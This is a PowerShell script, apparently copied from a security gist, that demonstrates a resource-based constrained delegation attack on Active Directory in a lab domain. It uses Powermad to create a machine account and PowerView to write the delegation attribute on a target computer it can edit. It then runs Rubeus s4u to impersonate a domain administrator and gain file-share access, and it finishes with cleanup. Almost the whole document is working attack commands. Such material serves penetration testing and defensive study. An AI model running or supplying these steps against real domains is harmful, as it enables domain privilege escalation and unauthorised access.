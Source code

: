 #### Resource Based Constrained Delegation

```powershell
# import the necessary toolsets
Import-Module .\powermad.ps1
Import-Module .\powerview.ps1

# we are TESTLAB\attacker, who has GenericWrite rights over the primary$ computer account
whoami

# the target computer object we're taking over
$TargetComputer = "primary.testlab.local"

$AttackerSID = Get-DomainUser attacker -Properties objectsid | Select -Expand objectsid

# verify the GenericWrite permissions on $TargetComputer
$ACE = Get-DomainObjectACL $TargetComputer | ?{$_.SecurityIdentifier -match $AttackerSID}
$ACE

ConvertFrom-SID $ACE.SecurityIdentifier

# add a new machine account that we control
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

# get the SID of the new computer we've added
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

# build the new raw security descriptor with this computer account as the principal
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

# get the binary bytes for the SDDL
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set new security descriptor for 'msds-allowedtoactonbehalfofotheridentity'
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# confirming the security descriptor add
$RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
$Descriptor.DiscretionaryAcl

# currently don't have access to primary\C$
dir \\primary.testlab.local\C$

# get the hashed forms of the plaintext
.\Rubeus.exe hash /password:Summer2018! /user:attackersystem /domain:testlab.local

# execute Rubeus' s4u process against $TargetComputer
#   EF266C6B963C0BB683941032008AD47F == 'Summer2018!'
#   impersonating "harmj0y" (a DA) to the cifs sname for the target computer (primary)
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:harmj0y /msdsspn:cifs/primary.testlab.local /ptt


# cleanup - clear msds-allowedtoactonbehalfofotheridentity
Get-DomainComputer $TargetComputer | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'

# source https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff#file-rbcd_demo-ps1
```